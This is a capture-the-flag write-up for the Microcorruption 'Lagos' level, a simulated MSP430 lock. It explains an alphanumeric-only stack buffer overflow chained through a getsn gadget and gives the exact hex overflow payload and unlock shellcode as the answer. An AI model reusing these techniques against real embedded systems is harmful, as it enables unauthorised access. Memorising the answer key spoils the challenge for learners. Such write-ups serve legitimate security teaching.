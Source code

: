 # Lagos
## TLDR
Only alphanumeric values are accepted from user input.  
The program is vulnerable to a stack buffer overflow.  
Jump to getsn function to read unfiltered bytes from user.  
Write and execute shellcode instructions that will call interrupt 0x7f.  

## Details
The LockIT Pro c.04  is the first of a new series  of locks. It is
controlled by a  MSP430 microcontroller, and is  the most advanced
MCU-controlled lock available on the  market. The MSP430 is a very
low-power device which allows the LockIT  Pro to run in almost any
environment.

The  LockIT  Pro   contains  a  Bluetooth  chip   allowing  it  to
communiciate with the  LockIT Pro App, allowing the  LockIT Pro to
be inaccessable from the exterior of the building.

There  is no  default  password  on the  LockIT  Pro HSM-2.   Upon
receiving the  LockIT Pro,  a new  password must  be set  by first
connecting the LockitPRO HSM to  output port two, connecting it to
the LockIT Pro App, and entering a new password when prompted, and
then restarting the LockIT Pro using the red button on the back.
    
LockIT Pro Hardware  Security Module 2 stores  the login password,
ensuring users  can not access  the password through  other means.
The LockIT Pro  can send the LockIT Pro HSM-2  a password, and the
HSM will  directly send the  correct unlock message to  the LockIT
Pro Deadbolt  if the password  is correct, otherwise no  action is
taken.
    
This is Hardware  Version C.  It contains  the Bluetooth connector
built in, and two available  ports: the LockIT Pro Deadbolt should
be  connected to  port  1,  and the  LockIT  Pro  HSM-2 should  be
connected to port 2.

This is  Software Revision  04. Due to  user confusion  over which
characters passwords may contain,  only alphanumeric passwords are
accepted.

## Solution
This time our inputs are limited to alphanumeric characters. This means we can only send the following bytes:
* 0x30 - 0x39
* 0x41 - 0x5a
* 0x61 - 0x7a

Start at login.

![login](./screenshots/login.png)

The call to getsn reads 0x200 bytes from the user. This is plenty to overflow the return address. Here we can also see the code that filters our input bytes. It doesn't seem to have any vulnerabilities.

Take a look at the getsn function.

![getsn](./screenshots/getsn.png)

This function is reachable with alphanumeric bytes in our buffer overflow. When this function is called, r14, r15, and the 0x2 interrupt will be pushed to the stack and INT is called. We can use this call to write unfiltered bytes to a memory address of our choice. Jumping straight to address 0x4654 will let us assign the second and third argument from our buffer overflow. I chose to write to address 0x3030 which is currently unused and will get past the filter.

`INT(0x2, 0x3030, 0x3030)`

Then we need to jump to address 0x3030 where our shellcode will open the door. A visual of the stack can be seen below.

```
         STACK
         ------
$sp + 2  |4141| junk
          ....
$sp + 12 |5446| ROP gadget #1 (0x196 bytes after memory leak)
$sp + 14 |3030| getsn arg 1 (buf)
$sp + 16 |3030| getsn arg 2 (size)
$sp + 18 |3030| ROP gadget #2 (jump to shellcode)
        -----
```

![input](./screenshots/input.png)

It works! Now we need to provide shellcode which will be stored to address 0x3030. Use the shellcode we generated from [Bangalore](https://github.com/networking101/microcorruption/tree/main/Bangalore).

`0x324000ffb0121000`

We can see the shellcode stored to memory right before we return to address 0x3030.

![memory](./screenshots/memory.png)

## Answer
Password: (hex) 41414141414141414141414141414141415446303030303030  
Next input: (hex) 324000ffb0121000
